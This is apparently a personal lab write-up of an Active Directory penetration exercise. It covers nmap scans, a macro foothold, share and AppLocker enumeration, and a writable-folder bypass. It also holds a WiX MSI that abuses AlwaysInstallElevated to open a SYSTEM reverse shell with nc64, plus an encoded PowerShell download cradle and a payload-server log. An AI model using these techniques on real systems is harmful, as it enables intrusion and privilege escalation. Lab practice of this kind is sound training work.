Same here but seems like no success so we can move on?



Running from linux worpress shell:

```
www-data@corewebdl:/tmp$ ./nmap -F 10.9.15.200
./nmap -F 10.9.15.200

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-06-14 08:34 EST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.9.15.200
Host is up (0.00041s latency).
Not shown: 242 closed ports
PORT     STATE SERVICE
135/tcp  open  epmap
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds
www-data@corewebdl:/tmp$
```

Even more details after I fixed ligolo:

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
|_ssl-date: 2024-06-14T14:20:15+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: core
|   NetBIOS_Domain_Name: core
|   NetBIOS_Computer_Name: COREWKT001
|   DNS_Domain_Name: core.cyber.local
|   DNS_Computer_Name: corewkt001.core.cyber.local
|   DNS_Tree_Name: cyber.local
|   Product_Version: 10.0.19041
|_  System_Time: 2024-06-14T14:20:00+00:00
| ssl-cert: Subject: commonName=corewkt001.core.cyber.local
| Issuer: commonName=corewkt001.core.cyber.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-13T09:42:32
| Not valid after:  2024-12-13T09:42:32
| MD5:   d6bf:7937:024c:45ab:8c00:d1f4:ebf0:8ba4
| SHA-1: a240:b576:5872:a22b:8c15:8880:8c52:fa8d:5dca:8aa2
| -----BEGIN CERTIFICATE-----
| MIIC+jCCAeKgAwIBAgIQedAO7OTKnrxJ9YOeDpifCjANBgkqhkiG9w0BAQsFADAm
| MSQwIgYDVQQDExtjb3Jld2t0MDAxLmNvcmUuY3liZXIubG9jYWwwHhcNMjQwNjEz
| MDk0MjMyWhcNMjQxMjEzMDk0MjMyWjAmMSQwIgYDVQQDExtjb3Jld2t0MDAxLmNv
| cmUuY3liZXIubG9jYWwwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDW
| gPVPTEX4lJN0bCZKS1x1EnBhD4hVL7rNzPdpHk93qHzuXN7tRmXqXAX1biZATRe+
| ZrtMXPr+eDY5tDwm7ITEWCehJNifQ/2kLN+9xlcJfTS5HyR/mxThWEQ//kXc7TaL
| e0tACBrnNeSUP5qFY+a4WSpOHKfg1NgcjOvwNp/L/33YWajR1apAgGGLa4i1/Cyk
| Ct5oPA6eS8Dxe+rNp4OBoAoXosAXsYNg6J/UG6gyziztmr67iaJNDbdCy648xMMZ
| zpvE9D2h/rVwZnnC54HCp5QnHh+B6LeaC5GLTzm1EcXbZEttFCTYkKLdvY43mTKW
| 5ldmb+Dr3+Efge356d8lAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsG
| A1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEAKoHFIwznLf7XDTxwYOM6G/SL
| nXF5EbNS0Pk2rgqkYcFEcIL/UV/DAkED/MZoyvJjWmuQleN7hEAl13gzYU3WFa2R
| 9bKIg/KC80mJsXF91/saZgqkDKo78UaW2tx/ownE2ZuPWGjCaXHFwOZGFVhL6BmG
| 0nJiQ7UiZj8Y+kCyPJ+w4Mvtzpd7BbnmUnqtidOvFl8Av/A6gvwKl5C/Ma5wS32r
| YNiB2VEiGsLam7WG/gFV+XyMbuxTRR+z+T/Q2jxGFcKwKsrqqyu6mviKxx2vPahW
| I/IUw4MPtD8Z8DjTlU8tiVQbdloRAe1dbcRWFTMi0Xyi1fJCBBh3RhpxMA5FFQ==
|_-----END CERTIFICATE-----
5040/tcp  open  unknown       syn-ack ttl 64
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49672/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49689/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49690/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

&nbsp;

# OWA Foothold

The foothold via VBA macro in DOC file gave the results in a first shell on this machine as ILENE:



Now on this machine I really don't see that much. I will try to upload winpeas and check that way... But seems like the script fails by making the whole crap unstable.. I will try using seatbelt.exe instead

But that also fails so i will do some manual enumerations so starting by running a Sysinfo:

```
PS C:\temp> systeminfo

Host Name:                 COREWKT001
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.19041 N/A Build 19041
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Administrator
Registered Organization:   Administrator
Product ID:                00329-10280-00000-AA149
Original Install Date:     1/30/2024, 9:07:21 AM
System Boot Time:          6/17/2024, 10:30:23 AM
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
                           [02]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 2,432 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 3,183 MB
Virtual Memory: In Use:    1,616 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    core.cyber.local
Logon Server:              \\COREDC
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5007289
                           [02]: KB4577586
                           [03]: KB5015684
                           [04]: KB5008212
                           [05]: KB5032907
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.9.15.200
                                 [02]: fe80::2191:3c9:5fcf:6fdc
Hyper-V Requirements:      A hypervisor has been detected. Features required f
```

&nbsp;

But then seems like the machine allow install MSI as elevate?

```
PS C:\temp> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\temp> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\temp>
```

We can use msfvenom to add a local user:



But seems like our shell isn't fully working yet, so i will use this instead:

```
https://github.com/KINGSABRI/MSI-AlwaysInstallElevated.git
```

this code:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# cat shell.wix                                    
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
   <Product 
      Id="*" 
      UpgradeCode="12345678-1234-1234-1234-111111111111" 
      Name="Example Product Name" 
      Version="0.0.1" 
      Manufacturer="Example Company Name" 
      Language="1033">
      
      <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package" InstallPrivileges="elevated"/>
      <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>


      <Directory Id="TARGETDIR" Name="SourceDir">
         <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222"/>               
      </Directory>

      <Feature Id="DefaultFeature" Level="1">
         <ComponentRef Id="ApplicationFiles"/>
      </Feature>

<!-- Execute SYSTEM shell back either via executable or powershell one-liner -->
<!-- ExeCommand  ='powershell -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADcAMgAuADEANgAuADEAOQA4AC4AMQAzADAAOgA4ADAALwBhACcAKQApAA==' -->
      <CustomAction 
         Id          ="a_system_shell"                     
         Directory   ="TARGETDIR"
         ExeCommand  ='C:\temp\nc64.exe 10.9.20.10 443 -e cmd'
         Return      ="asyncNoWait"
         Execute     ="deferred"
         Impersonate ="no"
      />

<!-- Attempt to execute nonexistant program, which causes installer to fail, so example.msi won't be registered as an installed program -->
      <CustomAction 
         Id          ="z_gonna_fail"                     
         Directory   ="TARGETDIR"
         ExeCommand  ='C:\asdfasdfasdf.exe'
         Return      ="check"
         Execute     ="deferred"
         Impersonate ="no"
      />

   <InstallExecuteSequence>
      <Custom Action="a_system_shell" After="InstallInitialize" /> 
      <Custom Action="z_gonna_fail" Before="InstallFinalize" /> 
   </InstallExecuteSequence>
   
   </Product>
</Wix>
```

But this didn't worked so i will compile from windows instead:

```
PS C:\Users\aleks\Downloads\wix314-binaries> .\candle.exe .\shell.wix
Windows Installer XML Toolset Compiler version 3.14.1.8722
Copyright (c) .NET Foundation and contributors. All rights reserved.

shell.wix
PS C:\Users\aleks\Downloads\wix314-binaries> .\light.exe .\shell.wixobj
Windows Installer XML Toolset Linker version 3.14.1.8722
Copyright (c) .NET Foundation and contributors. All rights reserved.

C:\Users\aleks\Downloads\wix314-binaries\shell.wix(12) : warning LGHT1079 : The cabinet 'product.cab' does not contain any files.  If this installation contains no files, this warning can likely be safely ignored.  Otherwise, please add files to the cabinet or remove it.
PS C:\Users\aleks\Downloads\wix314-binaries>
PS C:\Users\aleks\Downloads\wix314-binaries>
```

&nbsp;

# Attempt NR#03

here i had to ask for another insider tips and apparently seems like getting a better shell is totally pointless as the key to moving around is in the SHARES, We know from our litle enumeration that this machine is Domain joined,

So using the shell session as Ilene, we want to check the Samba shares on the DC! So seems like the only LOLBAS commands work so we can use netuse instead:

And the cydc have nothing so far:

```
PS C:\temp> net view \\10.9.10.10
Shared resources at \\10.9.10.10


Share name  Type  Used as  Comment              

-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share   
SYSVOL      Disk           Logon server share   
The command completed successfully.

PS C:\temp>
```

Same for the coredc:

```
PS C:\temp> PS C:\temp> net view \\10.9.15.10
Shared resources at \\10.9.15.10


Share name  Type  Used as  Comment              

-------------------------------------------------------------------------------
NETLOGON    Disk           Logon server share   
SYSVOL      Disk           Logon server share   
The command completed successfully.

PS C:\temp>
```

The workstation 002 have no shares:

```
PS C:\temp> net view \\10.9.15.201
There are no entries in the list.
```

And the CYGW, ADFS, WAP  and MX have no shares:

```
PS C:\temp> net view \\10.9.10.11
There are no entries in the list.

PS C:\temp> 
PS C:\temp> net view \\10.9.10.12
There are no entries in the list.

PS C:\temp> net view \\10.9.10.13
Shared resources at \\10.9.10.13


Share name  Type  Used as  Comment  

-------------------------------------------------------------------------------
address     Disk                    
The command completed successfully.

PS C:\temp> net view \\10.9.10.17
There are no entries in the list.

PS C:\temp>
```

What haves is the FS aka filesystem?

```
S C:\temp> net view \\10.9.10.14
Shared resources at \\10.9.10.14


Share name            Type  Used as  Comment  

-------------------------------------------------------------------------------
Accounting            Disk                    
Audit                 Disk                    
Business Development  Disk                    
Customer Service      Disk                    
DevOps                Disk                    
Directors             Disk                    
Engineering           Disk                    
GroupShare            Disk                    
Help Desk             Disk                    
Human Resources       Disk                    
Interns               Disk                    
IT Admins             Disk                    
Linux Admins          Disk                    
Management            Disk                    
Marketing             Disk                    
Operations            Disk                    
Purchasing            Disk                    
Quality Assurance     Disk                    
RDS-Users             Disk                    
Sales                 Disk                    
Server Admins         Disk                    
The command completed successfully.

PS C:\temp>
```

Now it is going to be dedius but we need to check one ny one.. Now I mapped all the one that might be huicy somehow:

```
PS C:\temp> net use v: "\\10.9.10.14\Server Admins"
The command completed successfully.

PS C:\temp> net use
New connections will be remembered.


Status       Local     Remote                    Network

-------------------------------------------------------------------------------
OK           V:        \\10.9.10.14\Server Admins 
                                                Microsoft Windows Network
OK           W:        \\10.9.10.14\Linux Admins Microsoft Windows Network
OK           X:        \\10.9.10.14\Help Desk    Microsoft Windows Network
OK           Y:        \\10.9.10.14\IT Admins    Microsoft Windows Network
OK           Z:        \\10.9.10.14\DevOps       Microsoft Windows Network
The command completed successfully.

PS C:\temp>
```

&nbsp;

# Attempt nr #04

Now I decided to folllow another path, specificaly this one: https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

So i will create a dummy excell that invokes a XML shell

So here I create the malicious code in the whole page of the excell:



And here i set that it need to run on open:  


And to have a better shell will use this one: https://github.com/antonioCoco/ConPtyShell.git

And maybe this will work out?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/www]
└─# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.110.10 - - [18/Jun/2024 08:49:46] "GET /agent.exe HTTP/1.1" 200 -
10.10.110.10 - - [18/Jun/2024 08:49:46] "GET /agent.exe HTTP/1.1" 200 -
10.10.110.10 - - [18/Jun/2024 08:49:46] "GET /nc64.exe HTTP/1.1" 200 -
10.10.110.10 - - [18/Jun/2024 08:49:47] "GET /nc64.exe HTTP/1.1" 200 -
10.10.110.10 - - [18/Jun/2024 08:49:47] "GET /GodPotato.exe HTTP/1.1" 200 -
10.10.110.10 - - [18/Jun/2024 08:49:47] "GET /GodPotato.exe HTTP/1.1" 200 -
10.10.110.10 - - [18/Jun/2024 08:49:47] "GET /antak.aspx HTTP/1.1" 200 -
10.10.110.10 - - [18/Jun/2024 08:49:47] "GET /antak.aspx HTTP/1.1" 200 -


10.10.110.250 - - [18/Jun/2024 09:20:48] "GET /Invoke-ConPtyShell.ps1 HTTP/1.1" 200 -
```

And it seems like yeah!



Now we can try again to list the folders of CYFS? But now we can see that the rubeus.exe is blocked:

```
PS C:\temp> ./Rubeus.exe 
Program 'Rubeus.exe' failed to run: This program is blocked by group policy. For more information, contact your system administratorAt line:1 char:1
+ ./Rubeus.exe
+ ~~~~~~~~~~~~.
At line:1 char:1
+ ./Rubeus.exe
+ ~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Now googling around seems like this is called applocker.exe and it allows/deny only specific app to run or not. Seems like to bypass this we can check if there are any folders that have an exclusion?

Now we can check the actual rules:

```
PS C:\temp> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections


PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : a9e18c21-ff8f-43cf-b9fc-db40eed693ba
Name                : (Default Rule) All signed packaged apps
Description         : Allows members of the Everyone group to run packaged apps that are signed.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 3737732c-99b7-41d4-9037-9cddfb0de0d0
Name                : (Default Rule) All DLLs located in the Program Files folder
Description         : Allows members of the Everyone group to load DLLs that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : fe64f59f-6fca-45e5-a731-0f6715327c38
Name                : (Default Rule) All DLLs
Description         : Allows members of the local Administrators group to load all DLLs.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : ffd45a59-9628-4577-af71-873c9909b555
Name                : Microsoft Windows DLLs
Description         : Allows members of the Everyone group to load DLLs located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%PROGRAMFILES%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 921cc481-6e17-4653-8f75-050b80acca20
Name                : (Default Rule) All files located in the Program Files folder
Description         : Allows members of the Everyone group to run applications that are located in the Program Files folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : a61c8b2c-a319-4cd0-9690-d2177cad7b51
Name                : (Default Rule) All files located in the Windows folder
Description         : Allows members of the Everyone group to run applications that are located in the Windows folder.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : fd686d83-a829-4351-8ff4-27c7de5755d2
Name                : (Default Rule) All files
Description         : Allows members of the local Administrators group to run all applications.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow

PublisherConditions : {*\*\*,0.0.0.0-*}
PublisherExceptions : {}
PathExceptions      : {}
HashExceptions      : {}
Id                  : 4329051b-bbfd-4dc1-8f28-e4a8a62b0ddd
Name                : All digitally signed Windows Installer files
Description         : Allows members of the Everyone group to run digitally signed Windows Installer files.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {%WINDIR%\Installer\*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 5b290184-345a-4453-b184-45305f6d9a54
Name                : (Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer
Description         : Allows members of the Everyone group to run all Windows Installer files located in %systemdrive%\Windows\Installer.
UserOrGroupSid      : S-1-1-0
Action              : Allow

PathConditions      : {*.*}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 64ad46ff-0d71-4fa0-a30b-3f3d30c5433d
Name                : (Default Rule) All Windows Installer files
Description         : Allows members of the local Administrators group to run all Windows Installer files.
UserOrGroupSid      : S-1-5-32-544
Action              : Allow
```

Now these are the common bypasses folder:



And seems like we can write under Tracing:

```
PS C:\windows\tracing> echo "test" > test.txt
PS C:\windows\tracing> ls


    Directory: C:\windows\tracing


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/18/2024   3:52 AM             14 test.txt


PS C:\windows\tracing>
```

&nbsp;

Now here I was totally off again seems like this path is about RBDC again:



So firstly I will import Powerview/Powermad:

```
PS C:\temp> Import-module ./PowerView.ps1
PS C:\temp> Get-NetDomainController


Forest                     : cyber.local
CurrentTime                : 6/18/2024 8:49:24 AM
HighestCommittedUsn        : 680622
OSVersion                  : Windows Server 2016 Standard
Roles                      : {PdcRole, RidRole, InfrastructureRole}
Domain                     : core.cyber.local
IPAddress                  : 10.9.15.10
SiteName                   : Core
SyncFromAllServersCallback :
